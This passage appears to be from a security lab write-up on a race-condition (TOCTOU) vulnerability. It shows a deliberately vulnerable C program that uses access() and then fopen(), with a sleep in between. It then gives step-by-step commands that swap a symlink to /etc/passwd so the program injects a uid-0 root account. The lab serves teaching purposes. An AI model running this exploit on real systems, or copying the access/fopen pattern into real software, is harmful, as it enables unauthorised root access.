```c
#include <stdio.h>
#include<unistd.h>

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){ 
        sleep(10);
        fp = fopen(fn, "a+"); 
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
}
```

With this line we can "simulate" a slow computer. So, with that ready, we can finally exploit the vulnerablity.

1. Open 2 terminals, one will be for running the vulp, the other for changing the symbolic links between **/tmp/XYZ** and **/etc/passwd/**.
2. Exectue the program and write a new user specification like those in the **passwd** file:
```sh
$ ./vulp
$ vuln:U6aMy0wojraho:0:0:vuln:/root:/bin/bash
```
3. Finally, in the other terminal we change the symbolic link:
```sh
$ ln -sf /etc/passwd /tmp/XYZ
```
And we've done it! We illustrate the exploit's workings with the following images:

![Running the vulp program and altering the symbolic link](images/imagem5.PNG)